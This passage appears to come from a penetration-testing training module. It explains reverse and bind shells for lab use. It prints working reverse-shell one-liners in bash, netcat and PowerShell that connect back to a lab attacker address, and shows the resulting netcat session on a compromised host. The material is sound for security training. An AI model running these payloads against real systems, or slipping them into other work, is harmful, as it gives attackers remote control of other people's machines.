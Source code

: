Bash:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i2>&1|nc 10.10.10.10 1234 >/tmp/f

```

Powershell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

```

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

```
th1nyunb0y@htb[/htb]$ nc -lvnp 1234listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

### **Bind Shell**

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

**Bind Shell Command**

Once again, we can utilize [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-bind-cheatsheet/) to find a proper command to start our bind shell.

